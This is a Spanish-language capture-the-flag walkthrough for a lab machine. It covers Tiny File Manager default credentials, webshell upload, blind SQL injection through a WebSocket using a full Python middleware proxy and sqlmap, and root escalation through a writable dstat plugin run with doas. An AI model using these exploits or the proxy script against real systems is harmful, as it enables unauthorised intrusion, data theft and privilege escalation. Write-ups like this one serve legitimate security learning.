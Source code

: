 ## Tecnicas utilizadas
- Default Credentials for Tiny FIle Manager
- RCE(Tiny File Manager)
- SQLi Blind WebSocket
## Procedimiento
- Atraves de un escaneo de directorios con gobuster damos con la ruta */tiny*. Esta es un login, pruebo con las combinaciones basicas como admin:admin, guest:guest, root:root, nada funciona. Googleando un poco, hay un articulo que nos brinda las credenciales por default que vienen con tiny file manager; **Admin:Admin@123**
- Vemos varios archivos, alguno de ellos son imagenes y encontramos una carpeta llamada *tiny*. Eso nos hace pensar que quizás sea la ruta real en la maquina. Dentro de tiny no podemos subir ninguna web shell ya que no tenemos permisos, pero dentro tambien hay una carpeta llamada Uploads, y aqui si podemos proceder a subir nuestra webshell.
- Una vez conseguido el acceso a la maquina, me doy cuenta a traves de */etc/nginx/sites-avalibles* que hay VH, asi que procedo a añadir la nueva ruta encontrada en el */etc/hosts*
- Visitando la pagina, vemos que es la misma pagina principal, a diferencia, que esta añade mas secciones. En la sección de tickets, nos percatamos que podemos verificar si hay tickets que existen, esto funciona por detras, con un WebSocket, que es como una api.
- Googleando otro poco, encontramos un articulo que explica como podemos inyectar comandos al web sockets. Necesitamos el siguiente exploit y SQLMap
```python

from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

- Con sqlmap, nos conectamos de forma local ``sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`` y empezamos a emnumerar. Damos con un usuario y una contraseña que nos sirve para conectarnos por SSH a la maquina victima.
- Buscamos por archivos con permiso SUID. Encontramos **doas**, ahora solo queda encontrar el archivo de configuración para ver que tenemos permitido ejecutar como root.
- Enconttamos el binario **Dstat**, y tenemos permiso de escritura para la carpeta que gestiona los plugins. Creamos un archivo que otorge SUID a la bash y ejecutamos Dstat con doas como Root ``doas -root dstat --<plugin-name>``